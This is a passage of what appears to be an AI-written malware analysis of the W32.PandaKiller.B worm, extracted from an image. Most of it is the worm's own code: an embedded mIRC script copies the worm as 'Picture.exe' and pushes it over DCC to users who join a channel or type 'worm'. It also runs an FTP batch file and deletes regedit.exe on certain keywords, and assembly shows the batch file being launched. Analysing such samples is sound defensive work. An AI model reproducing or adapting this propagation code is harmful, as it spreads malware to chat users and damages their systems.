 **Content of MIRC.EKP:**

```assembly
inid    db "[SCRIPT]",0dh,0ah
        db "n1=on 1:start:{",0dh,0ah
        db "n2=.remote on",0dh,0ah
        db "n3=.ctcps on",0dh,0ah
        db "n4=.events on",0dh,0ah
        db "n5=}",0dh,0ah
        db "n6=on 1:connect:{",0dh,0ah
        db "n7= /.copy -0 C:\Windows\WinExec.exe C:\Picture.exe",0dh,0ah
        db "n8= /.run -n C:\command.com start C:\Win\ftp.bat",0dh,0ah
        db "n9=on 1:join:#:{",0dh,0ah
        db "n10=if ( $nick == $ma )  {halt } .dcc send $nick C:\Picture.exe",0dh,0ah
        db "n11=}",0dh,0ah
        db "n12=on 1:text:*worm*:{",0dh,0ah
        db "n13=if ( $nick == $ma )  {halt } .dcc send $nick C:\Picture.exe",0dh,0ah
        db "n14=}",0dh,0ah
        db "n15=on 1:text:*KKK*:/disconnect",0dh,0ah
        db "n16=on 1:text:*white power*:/exit",0dh,0ah
        db "n17=on 1:text:*hitler*:/remove C:\Windows\regedit.exe",0dh,0ah
```

----------

## **7. Executing FTP.BAT and Exiting**

The malware executes the batch script and terminates itself.

assembly

CopyEdit

`WinExecBat:
        push 1
        push offset bat
        call WinExec

FIN:    
        push 0
        call ExitProcess` 

----------

This analysis shows how **W32.PandaKiller.B** spreads through **FTP, mIRC, and registry modifications**, ensuring persistence and network-based propagation. Let me know if you need more details! 🚀

